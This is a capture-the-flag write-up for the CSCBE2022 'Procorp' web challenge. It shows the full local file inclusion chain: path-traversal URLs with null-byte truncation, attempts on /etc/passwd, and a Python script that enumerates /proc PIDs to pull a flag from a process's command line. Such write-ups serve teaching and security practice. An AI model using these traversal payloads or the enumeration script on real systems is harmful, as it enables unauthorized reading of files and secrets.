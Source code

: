 # CSCBE2022 - Procorp

## Web - Medium

In this challenge we were given a website talking about Procorp, a process manager. 
![](https://i.imgur.com/ySP8Itm.png)

We can't find anything really interesting on the website, except for a Guide page that talks about a simple way to use this process manager.

![](https://i.imgur.com/JzOBzSH.png)

Looking at the pastebin URL, we obviously find a fake flag. From here we can see that the flag is set by passing it as an argument to the process manager with the f option.

We can also see that the URL of this Guide webpage is included as follows.
`52.50.60.154/index.php?p=guide`

From this point on, we can think of a classic LFI attack.

As the main file for the website is `index.php`, it appears that `.php` is added to the file name passed to the `?p` parameter. To get around this, we need to add a null byte (`%00`) to the file we are trying to include.

So let's start by trying to include the other files that already exist.

`http://52.50.60.154/index.php?p=../html/pricing` (.php is appended to pricing to include pricing.php)
![](https://i.imgur.com/E03Dggl.png)
Here we can see two things:

- We are probably in the /var/www/html directory
- The LFI works

Let's continue by trying to include classic files such as /etc/passwd
`http://52.50.60.154/index.php?p=../../../../../../../../../../../etc/passwd%00` (remember about the null byte so that the .php extension is not added)
![](https://i.imgur.com/2cKwXpI.png)

We are not allowed to include files from the /etc directory.
So we kept trying to include different files from various directories but we weren't allowed to so. Except for a directory, /proc.
This special directory holds all the details about your Linux system, including its kernel, processes, and configuration parameters.

By reading documentation on proc files, we can see that some might be interesting to include.
https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html

/proc/PID/stat

> Process status.
> /proc/PID/stat files also displays the name of the process

/proc/PID/cmdline

> Command line arguments.
> This seems interesting considering that procorp is supposed to be run with the flag as a command line argument 


Let's try it.
`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/1/status%00`
![](https://i.imgur.com/Oy2ZvNW.png)

From here we can see that the name of the first process is `entrypoint.sh`. But let's see if we can find a more interesting process. To do this, we'll create a quick and dirty script that looks at the status of all the pids.


```python
import requests
url = "http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/"

for i in range(1000):
	a = requests.get(url+str(i)+"/status%00")
	print("testing : ", i)
	
	if "Quickly manage your processes!" not in a.text:
		a = str(a.content)
		a = a.split("Name:")
		a = a[1]
		a = a.split("Umask")
		print(a[0])
```

We run it and we can see that procorp is running on different pids. 

![](https://i.imgur.com/g1VV0KZ.png)

Let's choose one and include its command line arguments.
`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/7/cmdline%00`

And the flag is there :)

![](https://i.imgur.com/hLThpz2.png)


That's just how we first blooded this interesting and fun challenge.

